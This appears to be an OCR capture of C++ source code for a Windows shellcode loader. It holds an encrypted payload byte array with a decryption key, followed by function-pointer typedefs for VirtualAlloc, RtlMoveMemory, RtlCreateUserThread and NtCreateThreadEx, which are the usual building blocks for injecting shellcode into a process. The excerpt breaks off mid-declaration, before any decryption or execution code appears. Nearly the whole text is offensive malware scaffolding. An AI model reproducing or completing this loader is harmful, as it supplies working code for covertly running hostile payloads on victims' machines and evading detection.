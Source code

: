 ```c++
unsigned char payload[] = { 0x3f, 0x9d, 0x4, 0x52, 0x9c, 0x99, 0x8e, 0x50, 0x35, 0x14, 0xd, 0xa8, 0x8e, 0xf9, 0x74, 0x85, 0x16, 0xc5, 0x6c, 0xf7, 0xb3, 0xd0, 0x3f, 0x72, 0x4e, 0xfa, 0x7d, 0x3b, 0xe4, 0x39, 0xc5, 0xcb, 0x7c, 0xdf, 0xb2, 0xa0, 0xd2, 0xac, 0xca, 0x63, 0x2e, 0x31, 0xb, 0xf4, 0x1b, 0xfb, 0x10, 0xba, 0x2b, 0x7d, 0x47, 0x46, 0xce, 0x79, 0x7c, 0x79, 0x19, 0x4c, 0x9a, 0xca, 0x2f, 0xf3, 0x1e, 0x50, 0x28, 0x63, 0x65, 0x4e, 0x84, 0x8e, 0x43, 0x62, 0xcc, 0xc6, 0xb3, 0x5, 0x8b, 0x12, 0x9e, 0xc8, 0x33, 0x55, 0xe8, 0xe2, 0x5e, 0xe, 0x8d, 0x6f, 0xb3, 0xa8, 0x87, 0x11, 0xcb, 0xc8, 0x68, 0x86, 0x56, 0x94, 0xfd, 0xb2, 0x9a, 0x84, 0x42, 0x6e, 0xd5, 0x38, 0x0, 0x63, 0xd1, 0xbe, 0x80, 0xa, 0xe6, 0xc0, 0xf8, 0x22, 0x63, 0xb6, 0x85, 0x85, 0xe3, 0x8, 0xe3, 0xac, 0x1e, 0xa3, 0x1, 0x39, 0xca, 0x71, 0xd3, 0xd8, 0x8d, 0x83, 0x8f, 0xa4, 0x5b, 0x1b, 0x3e, 0xc6, 0x86, 0x6f, 0xb9, 0xd9, 0x5d, 0x29, 0x4b, 0x16, 0x7d, 0xbf, 0x2e, 0xa2, 0x1d, 0x6f, 0x5e, 0xf6, 0x62, 0x54, 0x22, 0x87, 0x4, 0x8a, 0xd6, 0x1c, 0xff, 0x42, 0xf4, 0x3c, 0xa3, 0xfc, 0x50, 0x7d, 0x1c, 0xa3, 0xc3, 0xe, 0xdc, 0x1a, 0x7d, 0x1f, 0x9c, 0x41, 0xd4, 0xa7, 0x31, 0x5e, 0x7d, 0x37, 0x2f, 0x6f, 0xec, 0x71, 0x9a, 0x24, 0xe6, 0x8e, 0x2c, 0x71, 0x6f, 0x4f, 0x4b, 0x19, 0xf1, 0xbb, 0x66, 0xbd, 0x6d, 0xbd, 0x16, 0x70, 0x8a, 0x8b, 0x29, 0x56, 0xbd, 0xe6, 0x6a, 0x46, 0xf9, 0x60, 0x8a, 0xa1, 0x5b, 0x81, 0x1c, 0x2, 0x53, 0xb3, 0xdf, 0x2b, 0xcc, 0xae, 0x4d, 0x7a, 0xf7, 0x0, 0xa, 0x47, 0xbb, 0x33, 0xdf, 0x1f, 0x32, 0xba, 0x25, 0xf7, 0x58, 0x5, 0x9e, 0xc5, 0xe4, 0x4e, 0xdf, 0x57, 0xd1, 0x69, 0xa9, 0x96, 0x50, 0xbf, 0xde, 0x3d, 0x26, 0xe0, 0x6, 0xe0, 0x46, 0x25, 0x23, 0x40, 0x7e, 0xe2, 0xa2, 0x3c, 0x2a, 0x92, 0xe5, 0x95, 0xff, 0x81, 0x7c, 0x42, 0x61, 0x3, 0xac, 0xdc, 0x91, 0x8f };
unsigned int payload_len = sizeof(payload);
unsigned char key[] = { 0x95, 0x21, 0x49, 0x58, 0x98, 0xe8, 0x50, 0xef, 0x36, 0x29, 0x22, 0x93, 0x9e, 0xce, 0x25, 0xc3 };

// http://undocumented.ntinternals.net/UserMode/Undocumented%20Functions/Executable%20Images/RtlCreateUserThread.html
typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef LPVOID (WINAPI * VirtualAlloc_t)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect);
	
typedef VOID (WINAPI * RtlMoveMemory_t)(
	VOID UNALIGNED *Destination, 
	const VOID UNALIGNED *Source, 
	SIZE_T Length);

typedef FARPROC (WINAPI * RtlCreateUserThread_t)(
	IN HANDLE ProcessHandle,
	IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
	IN BOOLEAN CreateSuspended,
	IN ULONG StackZeroBits,
	IN OUT PULONG StackReserved,
	IN OUT PULONG StackCommit,
	IN PVOID StartAddress,
	IN PVOID StartParameter OPTIONAL,
	OUT PHANDLE ThreadHandle,
	OUT PCLIENT_ID ClientId);

typedef NTSTATUS (NTAPI * NtCreateThreadEx_t)(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
```